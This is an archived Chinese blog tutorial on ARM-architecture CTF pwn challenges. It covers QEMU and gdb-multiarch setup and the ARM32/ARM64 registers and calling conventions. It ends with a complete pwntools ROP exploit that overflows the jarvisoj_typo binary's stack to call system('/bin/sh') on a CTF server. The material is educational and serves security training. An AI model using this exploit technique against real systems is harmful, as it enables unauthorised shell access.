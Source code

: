 <!--yml
category: 未分类
date: 2022-04-26 14:37:03
-->

# CTF pwn -- ARM架构的pwn题详解___lifanxin的博客-CSDN博客

> 来源：[https://blog.csdn.net/A951860555/article/details/116780827](https://blog.csdn.net/A951860555/article/details/116780827)

# 概述

  ARM架构过去称作进阶精简指令集机器（Advanced RISC Machine，更早称作：Acorn RISC Machine），是一个精简指令集（RISC）处理器架构，其广泛地使用在许多嵌入式系统设计。由于节能的特点，ARM处理器非常适用于移动通讯领域，符合其主要设计目标为低耗电的特性。因此我们常用的手机、平板等移动设备都是采用ARM体系架构的，因此CTF中不可避免也会出现ARM架构的pwn题。不过这种题目涉及的知识点都不会像x86体系架构那么深和细。

# 环境搭建

## 使用QEMU

  [QEMU](https://www.qemu.org/)
  借用官网的原话，`QEMU is a generic and open source machine emulator and virtualizer.`，qemu是一个通用的、开源的机器仿真器和虚拟机。因此我们可以在linux操作系统中安装它，然后用它来调试其它架构平台的程序。如何安装见下面代码所示：

```
 sudo apt update
sudo apt install qemu 
```

  在安装qemu后，对于静态链接的arm程序就已经可以直接运行了，使用命令`qemu-arm prog`运行32位的arm程序，其中prog指代程序名。但对于动态链接的程序还是无法正常运行，此时需要安装对应架构的动态链接库才行。
  如下面的命令和截图所示，这里以运行64位动态链接的arm程序为例，键入命令后发现有如下截图的libc版本返回，我们安装debug版本的，即`sudo apt install libc6-dbg-arm64-cross`。

```
sudo apt search "libc6" | grep arm 
```

![arm-libc6](img/ad33bd1f5fc8e45c16663cc240b91256.png)
  安装完后，在`/usr`目录下会出现`aarch64-linux-gnu`这个文件夹，该文件夹即对应刚安装好的arm64位libc库，之后我们使用下面的命令指定arm程序的动态链接器，即可运行程序。

```
qemu-aarch64 -L /usr/aarch64-linux-gnu/ ./prog 
```

  这里补充一下关于架构的一些知识以及介绍下qemu对应的一些命令。`qemu-arm`指的是arm32架构的，用这个命令来运行32位的arm程序，而`qemu-aarch64`对应的才是arm64位架构的程序，上面两者默认都是小端程序；`qemu-armeb`用来运行大端的arm程序。当然在上面安装包截图中显示的是arm64，其实和aarch64指的是同一种体系结构，只不过命名略有不同。然后在上面的截图中我们还看到有`armel`和`armhf`，这主要是针对浮点计算来区分的，其中`armel (arm eabi little endian)`使用fpu浮点运算单元，但传参还是用普通寄存器；`armhf (arm hard float)`也使用fpu浮点运算单元，同时使用fpu中的浮点寄存器传参。`arm64`默认用的是`armhf`，所以也就没有这个后缀，因此有这个后缀区分的都是指的是32位arm架构。
  下面分别是arm架构对应的32位静态链接和64位动态链接程序，大家可以用这两个程序来测试一下自己的环境是否配置成功。
  [jarvisoj_typo](https://download.csdn.net/download/A951860555/18696517)
  [babyarm](https://download.csdn.net/download/A951860555/19371409)

## 使用gdb-multiarch

  这里主要介绍下如何使用gdb调试不同体系架构的pwn题，首先使用如下命令安装gdb-multiarch。

```
sudo apt update
sudo apt install gdb-multiarch 
```

  可能遇到的报错信息，如下图所示，类似问题一般是将ubuntu源换成了国内源导致的，此时备份好国内镜像源，重新换成国外的，再执行上面命令，安装好该软件后再换回国内的就行了。

![gdb](img/746443cbc5027f9d8ea031a56d10b923.png)
  下面以调试32位静态链接的arm架构程序为例，首先我们先使用qemu对应架构的指令工具来启动该程序，由于示例的程序是静态编译的，所以就没有使用`-L`指定动态链接库目录。之后新开终端，使用gdb-multiarch，设置体系架构，连接本地调试端口即可。

```
 qemu-arm -g 8888 ./typo 
```

```
$ gdb-multiarch
......
......
pwndbg> set architecture arm
The target architecture is assumed to be arm
pwndbg> target remote localhost:8888 
```

![arm-gdb](img/8f8b88f1d8c298705f0ffc00fb2aeb39.png)
  之所以不在gdb-multiarch中直接使用`file`命令加载程序，是因为直接使用的话默认会用x86体系架构来进行解释。如果想要使用pwntools进行调试的，参见下面的代码，之后在gdb-multiarch中的操作一样。

```
 p = process(["qemu-arm", "-g", "8888", "./typo"]) 
```

# ARM架构基本知识

## arm32位寄存器介绍

  接下来介绍下arm的一些基本知识，关于arm的函数调用约定，函数的第 1 ～ 4 个参数分别保存在 r0 ～ r3 寄存器中， 剩下的参数从右向左依次入栈， 被调用者实现栈平衡，函数的返回值保存在 r0 中。除此之外，arm 的 b/bl 等指令实现跳转; pc 寄存器相当于 x86 的 eip，保存下一条指令的地址，也是我们要控制的目标。

![arm](img/2db0c300c70b3a63608dc7084cfacc5e.png)

## arm64位寄存器介绍

  如下图所示，是我gdb动态调试截的图，包含了64位下的所有寄存器。其中寄存器用x[n]表示64位的，8字节，w[n]表示取低32位，4字节，x0~x7用来实现函数传参，不够则使用栈来传递，x0用来存放函数的返回值。x29即fp，栈底指针寄存器；x30即lr，用来保存子程序的返回地址。sp栈顶指针寄存器，指向栈顶数据；pc指令指针寄存器，存放下一条指令地址；cpsr程序状态寄存器。

![arm64-reg](img/e9c51c9f945b4175787c8a98a2114bdb.png)

# 一道例题

  下面以jarvisoj_typo为例子，如下截图所示，该程序是arm体系下的32位静态链接程序，本身只开启了NX保护。

![pwnchecksec](img/ac7b9ce45db1d927174f9b8d36e94738.png)
  该程序本身去除了符号表，然后又是静态链接的，所以代码体积比较庞大，难以快速定位函数入口，所以这里我们可以在IDA下通过查看字符串的交叉引用快速定位到关键代码，然后结合程序运行结果，我们可以断定该程序存在栈溢出。

![func](img/a3d6506c4519beee20ca533dd4415217.png)
![run](img/9eb1f68cddcf8656529e17b59b49de96.png)
  根据x86体系架构下的做题经验，我们的利用思路就是实现栈溢出，首先调试确定ret_addr的位置，然后寻找一段可以控制r0的gadget，也就是让arm架构下函数的第一个参数为`/bin/sh\x00`的地址，最后返回执行system即可。完整exp如下：

```
from pwn import *

p = remote("node3.buuoj.cn", 25152)

p.sendline("")

sh = 0x0006c384

sys = 0x00010BA8

pop_r0_r4_pc = 0x00020904

pad = cyclic(112)+p32(pop_r0_r4_pc)+p32(sh)*2+p32(sys)

p.sendline(pad)

p.interactive() 
```

# 参考博客

  [如何在linux主机上运行/调试 arm/mips架构的binary](https://www.cnblogs.com/WangAoBo/p/debug-arm-mips-on-linux.html)
  [ctf-wiki: arm_rop_zh](https://wiki.x10sec.org/pwn/linux/arm/arm_rop-zh/)

# 总结

不忘初心，砥砺前行！